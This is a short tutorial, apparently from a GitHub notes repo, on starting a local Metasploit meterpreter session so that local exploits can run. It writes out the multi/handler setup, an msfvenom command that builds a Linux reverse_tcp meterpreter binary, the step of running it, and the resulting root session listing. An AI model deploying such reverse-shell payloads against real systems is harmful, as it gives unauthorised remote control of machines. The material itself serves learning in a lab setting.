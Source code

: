 # Setting up a local session

As I said in the [intro][./intro.md], metasploit is designed to run exploits
over a network.  That can make it annoying if you're trying to do stuff locally.
Without doing some initial work to set up a "meterpreter session", you're very
likely to get the error:

```
[-] Exploit failed: The following options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
```

The easiest way to handle this is to manually kick off a "meterpreter" process
that metasploit can interact with/over.  This is essentially like tricking
metasploit into thinking it has gained access to a machine, and now it can
attempt to run exploits locally through the meterpreter shell.

## Step-by-Step

1) In window (1), start up metasploit and have it listen for a connection

````
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.17.0.4
set LPORT 8888
set ExitOnSession false
exploit -j
```

2) In window (2), use msfvenom to download the meterpreter payload as a binary

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.17.0.4 LPORT=8888 -f elf X > payload.elf
```

3) In window (2), run the downloaded binary to establish a connection with metasploit

```
./payload.elf
```

4) In window (1), check that a connection was made

The command `sessions -l` should yield:

```
Active sessions
===============

  Id  Name           Type   Information          Connection
  --  ----           ----   -----------          ----------
   3  meterpreter  x86/linux  uid=0  172.17.0.4:8888 -> 172.17.0.4:50958 (172.17.0.4)
```

5) Continue along your merry way by, for example, attempting to exploit a local
binary
